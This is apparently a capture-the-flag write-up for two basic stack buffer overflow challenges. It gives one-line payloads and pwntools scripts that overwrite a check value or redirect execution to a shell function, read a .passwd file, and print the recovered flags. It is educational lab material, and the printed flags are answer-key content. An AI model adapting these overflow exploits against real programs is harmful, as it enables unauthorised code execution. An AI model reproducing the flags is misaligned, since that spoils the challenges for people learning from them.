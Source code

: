 # ***STACK BUFFER OVERFLOW BASIC 1***

From the given the challenge we give the buffer value as 40 and the check variable have to changed to ```deadbeef```.

We have to give ``deadbeef`` in reverse order since the stack reads them in the reverse order.

```cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13``` 

```
from pwn import *
io = process("./ch13")
payload = b"A"*40
payload += p64(0xdeadbeef)
io.sendline(payload)
io.interactive()
```

For both the exploits we get the shell

Then do ``ls -al``.

And ``cat .passwd``

We get ``1w4ntm0r3pr0np1s``

# ***STACK BUFFER OVERFLOW BASIC 2***

From the given the challenge we give the buffer value as 128 and here if we need to call the shell function.

Then we get the interactive shell


```cat <(python -c "print 'A' * 128 + '\x16\x85\x04\x08'") - | ./ch15```

```
from pwn import *
io = process("./ch15")
payload = b"A"*128
payload += p64(0x08048516)
io.sendline(payload)
io.interactive()
```
For both the exploits we get the shell

Then do ``ls -al``.

And ``cat .passwd``

We get ```B33r1sSoG0oD4y0urBr4iN```



